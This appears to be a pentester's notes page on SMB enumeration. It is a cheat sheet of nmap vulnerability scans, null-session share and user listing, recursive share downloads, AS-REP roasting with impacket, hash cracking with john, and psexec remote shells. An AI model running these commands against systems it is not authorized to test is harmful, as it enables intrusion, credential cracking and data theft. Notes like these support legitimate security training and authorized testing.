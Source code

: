 ```yaml
---
title: 03 - SMB Enumeration
updated: 2025-05-12 05:56:21Z
created: 2025-04-15 13:06:59Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


**NetBIOS** (TCP_139) - An independent session layer protocol and service used for LAN  
**SMB** (TCP_445) - Can work without NetBIOS, but NetBIOS over TCP 

1. **Enumerate smb:**  
   `nmap --script=smb2-security-mode.nse -p139,445 <target IP>`
2. **Enumerate shares**  
   `nmap -p139,445 --script=smb-enum* <target IP>`
3. **Scan for vulnerablities**  
   `nmap --script-args=unsafe=1 --script=smb-vulns*.nse -p139,445 <target IP>`  
   `nmap --script=smb-proto* -p139,445 <target IP>`  
   `nmap --script=smb-os-discovery.nse -p139,445 <target IP>`
   **List mounts:**  
   `showmount --exports <target IP>`
4. **List shares:**  
   `smbclient -L \\\\<target ip>`  
   **Connect to share:**
5. `smbclient //<target ip>/<share>`  
   `smbclient \\\\<target IP>\\IPC$`  
   **Download from share:**
6. `smbget -R smb://<ip>/<share>`
7. Enumerate with **crackmapexec**  
   `crackmapexec smb <target IP> -u '' -p '' --users`  
   `crackmapexec smb <target IP> -u '' -p '' --groups`  
   `crackmapexec smb <target IP> -u '' -p '' --pass-pol`
8. `python3 /opt/impacket/GetNPUsers.py -dc-ip <targetIP> -request 'domain.com/'`  
   If any hashes found, crack then with:  
   `john --format=krb5asrep \ -w=/usr/share/wordlists/rockyou.txt hash.txt`
9. `python3 /opt/impacket/smbserver.py -smb2support myshare .`  
   Check for SMB not enforcing signing , see SMBrelay.
10. Connect a shell over SMB using psexec  
   `psexec.py administrator@<targetIP> # password: abc123!`

(**NBT**) is required for backward compatibility 

Both are usually enabled together, so enumeration often goes hand in hand  
* * *
Note: **nmap** scripts can be found at `/usr/share/nmap/scripts/smb*`

1. Scan IP range for NetBIOS and SMB:
`nmap -v -p 139,445 -oG smb.txt x.x.x.1-254`
2. Scan for SMB OS discovery:
`nmap -v -p 139,445 --script smb-os-discovery <target>`

* * *
1. Scan with **nbtscan**
`nbtscan -r x.x.x.0/24/`

* * *
1. Scan using a Windows client
`net view \\servername /all`


